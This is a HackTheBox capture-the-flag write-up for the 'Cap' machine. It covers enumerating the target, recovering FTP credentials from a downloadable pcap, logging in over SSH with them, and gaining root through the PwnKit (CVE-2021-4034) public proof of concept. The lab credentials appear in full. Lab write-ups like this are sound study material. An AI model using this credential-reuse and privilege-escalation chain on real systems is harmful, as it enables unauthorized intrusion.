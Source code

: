
# 💥 CAP - HackTheBox Writeup

> ⚠️ **Disclaimer**
>
> This report documents a security assessment performed on a publicly available vulnerable machine within the HackTheBox platform.
> All activities were conducted legally and within the authorized scope of HackTheBox Labs.
>
> This content is intended strictly for educational and ethical purposes only.

## 📌 Target Info
- **IP:** 10.10.10.245
- **Platform:** HackTheBox
- **Difficulty:** Easy
- **Method:** VPN-based access to HTB network

---

## 🧭 Enumeration

### 🔍 Nmap Scan

**Command:**
```bash
nmap -sC -sV -p- -oN cap_nmap.txt 10.10.10.245
```

**Key Findings:**
- `21/tcp` — FTP (vsftpd 3.0.3)
- `22/tcp` — SSH (OpenSSH 8.2p1 Ubuntu)
- `80/tcp` — HTTP (Gunicorn) with “Security Dashboard” title

### 🌐 Web Discovery

**Manual Inspection & Gobuster:**
- Found `/data/0`, `/data/3`
- `/data/3` contained a downloadable `.pcap` file

---

## 💣 Exploitation

### ✅ 1. PCAP Analysis → FTP Creds

**Tool:**
```bash
wireshark login.pcap
```

**Extracted Credentials:**
```
USER nathan
PASS Buck3tH4TF0RM3!
```

**Usage:**
```bash
ssh nathan@10.10.10.245
```

**Result:** SSH access as `nathan`.

**Flag #1:**
```bash
cat ~/user.txt
```

---

### ✅ 2. PrivEsc via pkexec (PwnKit)

**Command:**
```bash
pkexec --version
→ 0.105
```

**Vulnerability:** CVE-2021-4034 (PwnKit)

**Exploit Used:**
- GitHub PoC: https://github.com/berdav/CVE-2021-4034
- Compiled with `make`
- Uploaded and executed on target

**Result:**
```bash
./pwnkit
whoami → root
```

**Flag #2:**
```bash
cat /root/root.txt
```

---

## 🔐 Credentials Used

- SSH: `nathan : Buck3tH4TF0RM3!`

---

## 🧠 Lessons Learned

- PCAP files can leak credentials — always analyze available data
- Common misconfigs (e.g. pkexec version) are still present in live targets
- Privesc requires consistent recon of SUID binaries and versions

---

## 🧰 Tools Used

- `nmap`
- `gobuster`
- `wireshark`
- `ssh`
- `git`, `make`, `gcc`

---

## ✅ Outcome

The target machine was fully compromised via:
1. Extracted FTP creds from `.pcap` file → SSH access
2. Privilege escalation using the PwnKit (CVE-2021-4034) vulnerability

---

**Author:** Esteban BREA HELL  
**GitHub:** [github.com/EstebanBreaHell](https://github.com/EstebanBreaHell)
